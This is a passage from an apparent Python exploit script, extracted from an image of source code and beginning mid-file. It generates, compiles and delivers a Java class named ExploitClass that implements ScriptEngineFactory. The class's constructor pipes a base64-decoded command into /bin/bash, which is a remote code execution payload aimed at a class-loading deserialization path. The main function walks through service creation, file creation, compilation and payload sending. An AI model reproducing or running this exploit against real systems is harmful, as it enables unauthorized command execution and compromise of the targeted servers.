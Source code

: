 ```py
import javax.script.ScriptEngineFactory;
import java.io.File;
import java.io.IOException;
import java.util.List;

public class ExploitClass implements ScriptEngineFactory {{
  public ExploitClass() throws Exception {{
    ProcessBuilder pb = new ProcessBuilder("bash", "-c", "echo {cmd} | base64 -d | /bin/bash").redirectErrorStream(true);
    try {{
      Process p = pb.start();
      p.waitFor();
      p.destroy();
    }} catch (Exception e) {{}}
  }}

  public String toString() {{
    return "Exploit Successful!";
  }}

  @Override public String getEngineName() {{ return null; }}
  @Override public String getEngineVersion() {{ return null; }}
  @Override public List<String> getExtensions() {{ return null; }}
  @Override public List<String> getMimeTypes() {{ return null; }}
  @Override public List<String> getNames() {{ return null; }}
  @Override public String getLanguageName() {{ return null; }}
  @Override public String getLanguageVersion() {{ return null; }}
  @Override public Object getParameter(String key) {{ return null; }}
  @Override public String getMethodCallSyntax(String obj, String m, String... args) {{ return null; }}
  @Override public String getOutputStatement(String toDisplay) {{ return null; }}
  @Override public String getProgram(String... statements) {{ return null; }}
  @Override public ScriptEngine getScriptEngine() {{ return null; }}
}}
            """
        )
    print("[+] Java file created")


def compile_java_file():
    os.system("javac --release 11 ExploitClass.java")
    print("[+] Java file compiled")


def main():
    # STEP 1: Create service
    create_service()
    
    # STEP 2: Create java file
    create_java_file()
    
    # STEP 3: Compile java file
    compile_java_file()

    # STEP 4: Send payload
    payload()

if __name__ == "__main__":
    main()
```
